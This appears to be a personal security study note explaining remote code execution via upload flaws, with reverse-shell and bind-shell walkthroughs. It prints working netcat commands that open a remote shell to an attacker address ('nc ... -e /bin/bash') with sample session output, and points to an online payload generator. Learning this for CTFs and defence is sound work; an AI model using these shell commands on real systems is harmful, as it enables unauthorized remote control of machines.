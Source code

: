 ![](assets/Pasted%20image%2020241129202307.png)

# [Introduction]()

Remote Code Execution (as the name suggests) would allow us to execute code arbitrarily on the web server. Whilst this is likely to be as a low-privileged web user account (such as `www-data` on Linux servers), it's still an extremely serious vulnerability. Remote code execution via an upload vulnerability in a web application tends to be exploited by uploading a program written in the same language as the back-end of the website (or another language which the server understands and will execute). For payloads check [this](https://www.revshells.com/) website.

## [Reverse shell]()

![](assets/Pasted%20image%2020241205154510.png)

In this case attacker listens/open port on attack machine and trick target machine to connect to attacker using specific payload. Payloads can be found on [revshells](https://www.revshells.com/). This is generally used in CTFs/internal networks.

Step 1: Attacker listens for a port. 
```
┌──[attacker@linux]─[~]
└──╼ $ nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.122.60] from (UNKNOWN) [192.168.122.2] 54524
whoami
target
```

Step 2: Target connects to attacker port and give access to execute `/bin/bash`(payload is `nc 192.168.122.60 9999 -e /bin/bash` in this case.)
```
┌──[target@linux]─[~]
└──╼ $ nc 192.168.122.60 9999 -e /bin/bash

```

## [Bind shell]()

![](assets/Pasted%20image%2020241205154852.png)

In this case attacker connect to target server which is listening on specific port. This is generally used in **external networks** because this does not requires port forwarding for external networks (as compared to revshell which requires config the router to forward external port to internal port.)

Step 1: Target listens on specific port and allows connected host to access `/bin/bash`
```
┌──[target@linux]─[~]
└──╼ $ nc -nlvp 9999 -e /bin/bash
listening on [any] 9999 ...
connect to [192.168.122.2] from (UNKNOWN) [192.168.122.60] 57644

```

Step 2: Attacker connects to target.
```
┌──[attacker@linux]─[~]
└──╼ $ nc 192.168.122.2 9999
whoami
target
```


